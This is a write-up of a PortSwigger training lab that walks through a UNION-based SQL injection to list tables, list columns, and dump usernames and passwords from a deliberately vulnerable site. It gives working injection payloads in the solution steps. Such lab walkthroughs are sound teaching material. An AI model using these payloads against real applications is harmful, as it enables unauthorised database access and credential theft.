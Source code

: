 ```yaml
---
difficulty: Practitioner
solve_date: 2023-09-01
lab_url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```

### Description

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

### Solution

1. Browse to the url with the category filter
2. Replace the category parameter value with the SQLi payload `' UNION SELECT table_name, NULL from information_schema.tables -- -`. You should see a list of all table names in the DB.
3. The table called `users_bzbwea` looks promising... replace the category parameter value with the SQLi payload `' UNION SELECT column_name, NULL from information_schema.columns WHERE table_name = 'users_bzbwea' -- -`. Now, you should see a list of all column names in the users table.
4. Now, let's list the usernames/passwords in the table. Enter another SQLi query: `' UNION SELECT username_cebylh, password_kmntoc FROM users_bzbwea -- -`
5. Finally, login with the administrator credentials that were revealed.
